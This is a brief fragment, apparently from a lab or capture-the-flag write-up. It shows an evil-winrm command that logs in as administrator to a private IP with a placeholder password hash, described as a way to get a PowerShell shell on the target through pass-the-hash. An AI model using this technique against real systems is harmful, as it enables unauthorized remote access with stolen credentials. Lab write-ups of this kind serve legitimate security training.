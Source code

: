 ```
evil-winrm -u administrator -H inserthash -i 10.10.68.12

```


We can us this to get a PS shell in target system using a hash <inserthash> we have found 


